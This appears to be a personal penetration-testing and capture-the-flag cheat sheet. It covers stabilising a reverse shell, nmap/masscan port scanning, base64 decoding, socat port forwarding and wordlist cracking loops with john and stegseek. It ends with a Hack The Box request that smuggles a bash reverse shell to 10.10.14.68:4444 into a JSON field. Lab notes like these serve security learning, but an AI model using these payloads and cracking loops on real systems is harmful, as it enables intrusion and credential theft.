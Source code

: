 ## 1. Stabilize your reverse shell
  
    python3 -c "import pty;pty.spawn('/bin/bash')"
    export TERM=xterm; export SHELL=/bin/bash
    CTRL+Z
    stty raw -echo;fg
    
  ####  OR Most good
         python3 -c "import pty;pty.spawn('/bin/bash')"
         export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
         export TERM=xterm-256color
         alias ll='ls -lsaht --color=auto'
          ctrl+Z  (in target) 
         stty raw -echo;fg;reset
               press enter *3
                   in my machine run 
                    stty -a ( output = speed 38400 baud; rows 40; columns 174; line = 0;)
         stty columns 174 rows 40
      
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
## BASH automation
*  cracking with all password list from seclists/Passwords
  
       for i in $(ls /usr/share/seclists/Passwords/ | grep .txt); do john hash /usr/share/seclists/Passwords/$i; done

 * cracking images
 
       for i in $(ls /usr/share/seclists/Passwords/ | grep *.txt); do stegseek event_banner.jpg /usr/share/wordlists/SecLists/Passwords/$i; done

   ### davzat hack the box machine getting shell
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
